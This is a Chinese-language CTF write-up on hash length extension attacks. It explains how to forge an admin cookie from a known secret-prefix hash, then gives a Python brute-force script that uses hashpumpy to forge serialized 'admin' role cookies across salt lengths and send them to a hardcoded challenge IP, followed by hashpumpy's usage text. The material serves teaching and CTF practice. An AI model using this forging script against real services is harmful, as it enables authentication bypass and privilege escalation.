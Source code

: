 > 
其中已知`sample-hash`，即`hash(secret+”adminadmin”)`，这时候构造`username=”admin”`，`password=”admin/x80/00…../00gg”`，其中使得`secret+username+password`恰好分为两组，第一组和`secret+adminadmin`一样(因为前面求`hash(secret+”adminadmin”)`时需要填充成`hash(secret+”adminadmin”+”/x80/00…”)`，第二组为`gg`，这时候求`hash(secret+username+password)`等价于求`hash(gg)`，但是初始向量变成第一组的hash值(已知)，然后构造cookie中的getmein提交即可


> 



> 
将得到的第一行设置到cookie的getmein中，第二行为username+password的值


### 未知salt长度

```
攻击代码

import hashpumpy
import urllib
import requests
for i in range(1,30):
	m=hashpumpy.hashpump('3a4727d57463f122833d9e732f94e4e0',';\"tseug\":5:s',';\"nimda\":5:s',i)
	print i		
	url='http://120.26.131.152:32778/'
	digest=m[0]
	
	message=urllib.quote(urllib.unquote(m[1])[::-1])
	cookie='role='+message+'; hsh='+digest
	#print cookie
	headers={
	'cookie': cookie,
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language': ':zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding': 'gzip, deflate'
}
	print headers
	re=requests.get(url=url,headers=headers)
	print re.text
	if "Welcome" in re.text:
		print re;
		break

```

```
使用说明

&gt;&gt;&gt; import hashpumpy
&gt;&gt;&gt; help(hashpumpy.hashpump)
Help on built-in function hashpump in module hashpumpy:
hashpump(...)
    hashpump(hexdigest, original_data, data_to_add, key_length) -&gt; (digest, message)
    Arguments:
        hexdigest(str):      Hex-encoded result of hashing key + original_data.
        original_data(str):  Known data used to get the hash result hexdigest.
        data_to_add(str):    Data to append
        key_length(int):     Length of unknown data prepended to the hash
    Returns:
        A tuple containing the new hex digest and the new message.
&gt;&gt;&gt; hashpumpy.hashpump('ffffffff', 'original_data', 'data_to_add', len('KEYKEYKEY'))
('e3c4a05f', 'original_datadata_to_add')

```

